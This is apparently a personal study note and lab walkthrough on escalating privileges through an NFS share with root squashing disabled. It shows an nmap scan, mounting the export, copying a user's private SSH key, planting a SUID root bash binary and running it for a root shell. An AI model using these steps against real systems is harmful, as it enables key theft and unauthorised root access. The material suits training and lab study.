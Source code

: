 If [root Squasing](Network%20Services.md#root%20squashing) isnt configured it can be exploited:

SUID (bit set) = specific linux authorization method to execute Files with every User as Owner/Group (like a superuser)

Download: [Standard Ubuntu Server 18.04 Bash Executable](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)

```
cd /downloads/
sudo chown root bash
cp /downloads/bash /nfs/home/bash
sudo chmod +s /nfs/home/bash
ssh -i id_rsa xxx@ip
./bash -p
```

- needs NFS + SSH access
- -p = persists the permission, so SUID can be executed as root, else permissions could be dropped
- +s = SUI Permission so we can execute files with other users as owner

Example:

``` 
nmap -A --top-ports 100 10.10.128.227

        Nmap scan report for ip-10-10-128-227.eu-west-1.compute.internal (10.10.128.227)
	Host is up (0.00090s latency).
	Not shown: 97 closed ports
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 73:92:8e:04:de:40:fb:9c:90:f9:cf:42:70:c8:45:a7 (RSA)
	|   256 6d:63:d6:b8:0a:67:fd:86:f1:22:30:2b:2d:27:1e:ff (ECDSA)
	|_  256 bd:08:97:79:63:0f:80:7c:7f:e8:50:dc:59:cf:39:5e (EdDSA)
	111/tcp  open  rpcbind 2-4 (RPC #100000)
	| rpcinfo: 
	|   program version   port/proto  service
	|   100000  2,3,4        111/tcp  rpcbind
	|   100000  2,3,4        111/udp  rpcbind
	|   100003  3           2049/udp  nfs
	|   100003  3,4         2049/tcp  nfs
	|   100005  1,2,3      35337/udp  mountd
	|   100005  1,2,3      56859/tcp  mountd
	|   100021  1,3,4      35347/udp  nlockmgr
	|   100021  1,3,4      39613/tcp  nlockmgr
	|   100227  3           2049/tcp  nfs_acl
	|_  100227  3           2049/udp  nfs_acl
	2049/tcp open  nfs_acl 3 (RPC #100227)
	MAC Address: 02:AD:DB:09:B1:93 (Unknown)
	No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
	TCP/IP fingerprint:
	OS:SCAN(V=7.60%E=4%D=7/19%OT=22%CT=7%CU=42941%PV=Y%DS=1%DC=D%G=Y%M=02ADDB%T
	OS:M=62D65C3C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A
	OS:)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5
	OS:=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W
	OS:6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S
	OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
	OS:D=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=
	OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U
	OS:1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
	OS:I=N%T=40%CD=S)

	Network Distance: 1 hop
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE
	HOP RTT     ADDRESS
	1   0.90 ms ip-10-10-128-227.eu-west-1.compute.internal (10.10.128.227)

	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 22.60 seconds

/usr/sbin/showmount -e 10.10.128.227
        
        Export list for 10.10.128.227:
        /home *
   
mkdir /tmp/mount
sudo mount -t nfs 10.10.128.227:home /tmp/mount/ -nolock
cd /tmp/mount
cd cappucino/.ssh
cp id_rsa /tmp/id_rsa
vi id_rsa.pub
cd /tmp
ssh -i id_rsa cappucino@10.10.128.227
exit()
download https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
sudo chown root bash
cd /tmp/mountcappucino/
cp /root/downloads/bash .
sudo chmod +s bash
ls -lisa
	-rwsr-sr-x 1 root   root   1113504 Jul 19 10:16 bash*
ssh -i id_rsa cappucino@10.10.128.227
./bash -p
cd /root/
```